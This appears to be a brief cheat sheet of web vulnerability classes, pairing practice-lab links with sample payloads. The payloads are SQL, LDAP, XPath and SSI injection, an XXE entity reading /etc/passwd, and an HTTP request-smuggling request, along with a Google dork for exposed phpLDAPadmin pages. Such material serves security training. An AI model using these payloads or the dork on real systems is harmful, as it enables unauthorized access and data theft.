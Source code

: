 # Cross Site Scripting (Reflected & Stored)
Lab : http://testphp.vulnweb.com/index.php

# HTTP Verb Tampering
Lab : http://challenge01.root-me.org/web-serveur/ch8/

# HTTP Parameter Pollution
Lab : https://bwapp.hakhub.net/hpp-1.php
Payload : &movie=2

# SQL Injection
Lab : https://juice-shop.herokuapp.com/#/login
Payload : admin' or '1'='1'--

# LDAP Injection

Google Dork - 
intitle:"phpLDAPadmin" inurl:cmd.php

Login Bypass - 
user=*
password=*
--> (&(user=*)(password=*))

# XML Injection
Lab : https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files
Payload :
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
&xxe;

# XPATH Injection
Lab : https://bwapp.hakhub.net/xmli_1.php
Payload : ' or id='1

# SSI Injection 
Payload : <!--#exec cmd="OS_COMMAND" -->

# Code Injection
Lab : https://bwapp.hakhub.net/phpi.php

# Local File Inclusion/ Remote File Inclusion
Lab: https://bwapp.hakhub.net/rlfi.php

# Command Injection
Lab : https://bwapp.hakhub.net/commandi.php

# HTTP Splitting Smuggling
Lab : https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses
Payload : 
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
